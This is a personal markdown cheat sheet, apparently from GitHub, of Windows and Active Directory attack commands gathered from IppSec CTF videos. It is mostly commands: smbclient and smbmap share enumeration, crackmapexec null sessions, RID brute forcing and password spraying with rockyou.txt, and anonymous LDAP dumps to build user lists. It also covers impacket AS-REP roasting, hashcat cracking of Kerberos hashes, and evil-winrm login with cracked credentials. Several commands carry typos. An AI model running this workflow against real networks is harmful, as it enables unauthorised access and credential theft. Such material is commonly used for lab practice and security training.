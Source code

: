 

```
Some usefull commands/tools I found while watching IPSec vids.
```
<https://ippsec.rocks/>


### smbclient
### list shares (sometimes no pw is requires)

```
smbclient -L 192.168.50.20

smbclient -N -L  192.168.50.20

smbclient -N  //192.168.50.20/sharename

smbclient -U '' -L  //192.168.50.20

smbclient -U 'guest' -L  //192.168.50.20
              anonymous
```

### Log onto the Users share
```
smbclient //192.168.50.20/Users
```


### Software updates
```
smbclient //192.168.50.20/Software_Updates

```

### Mounting SMB

```
First install cifs-utils, so that you can mount the SMB remotely

sudo apt install cifs-utils

create the mountpoint first

sudo mkdir /mnt/usr

sudo mount -t cifs //192.168.50.20/Users /mnt/user

sudo mount -t cifs //192.168.50.20/Data /mnt/data

```

### Now you should be able to access the data you pulled from SMB in your /mnt directory

```
cd /mnt

smbmap

smbmap -H 192.168.50.20

smbmap -H 192.168.50.20 -u 'fakeusername'

```

## cracmapexec for SMB

### list the shares
```
crackmapexec smb 192.168.99.162 --shares
```
### Get info on their pw policy:
```
crackmapexec smb --pass-pol 192.168.99.162
```
### Null authentication
```
crackmapexec smb  192.168.99.162 -u '' -p ''
```

### enumerate a DC's users
```
crackmapexec smb 192.168.99.162 --users
```

### try with non-existant user
```
crackmapexec smb 192.168.99.162 --shares -u fakeuname -p fakepwd
```

### discover who's logged on
```
crackmapexec smb 192.168.99.162 --loggedon-users

```
### bruteforce some smb if you can
```
crackmapexec smb 192.168.99.162 --rid-brute 4000
```
### crack password of an enumerated user/or Built in
```
crackmapexec smb 192.168.99.162 -u Guest -p rockyou.txt

```
### Brute force
```
crackmapexec smb 192.168.99.162 -u 'Administrator' -p 'PASS' --rid-brute
```
### More stuff
```
crackmapexec smb 192.168.1.10 -u svc-user -p userspw
```

## LDAP

__ldapsearch is a good alternative to enum4linux.

```
ldapsearch -h <targetIP>  -x

ldapseach -h 192.168.1.10 -x -s base namingcontexts

ldapsearch -h 192.168.1.10 -x -b "DC=name,DC=local" > ldap-anonymous.out

grep -i "memberof" ldap-anonymous.out

less ldap-anonymous.out

ldapsearch -h 192.168.1.10 -x -b "DC=name,DC=local" '(objectClass=Person)' sAMAccountName | grep sAMAccountName

ldapsearch -h 192.168.1.10 -x -b "DC=name,DC=local" '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap

```

### Some IMPACKET Python script useage.
```

sudo impacket-smbserver -smb2support -user yourname -password yourpassword sharename $(pwd)

Some how-to use of various impacket scripts & hashcat
IMPACKET & hashcat

./GetNPUsers.py -dc-ip 192.168.1.10 -request 'target.domain/'

./GetNPUsers.py -dc-ip 192.168.1.10 -request 'target.domain/' -format hashcat

```

### Crack the pw with Hashcat
**Kerberos**

```
./hashcat --example-hashes | grep -i krb

asrep23

create a text doc with the hash

Vim hashes/svc-dude

once you get the dudes pw do

crackmapexec smb 192.168.1.10 -u svc-dude -p dudespw

should log in

crackmapexec smb 192.168.1.10 -u svc-dude -p dudespw --shares

get group policy pw if you can

search the hashes file to get the mode number

./hashcat --example-hashes | less

mode 18200 for asrep

hascat cmd

hashcat -m 18200 hashse/svc-dude  /opt/wordlists/rockyou.txt -r rules/InsidePro-PasswordsPro.rule


you can also create wordlists with hashcat.. that will be posted later
```

### Commands n stuff
```
instead of grep, try ripgrep
instead of cat, try bat
when using ripgrep, it's used with the same syntax as grep, except you only have to type ripgrep
```

### example

```
rg -i "chars" file.txt

also can search a directory:

ls -l | rg -i "document"
```

**winrm**
```
./evil-winrm.rb -u svc-user -p hispassword -i 192.168.1.10

```
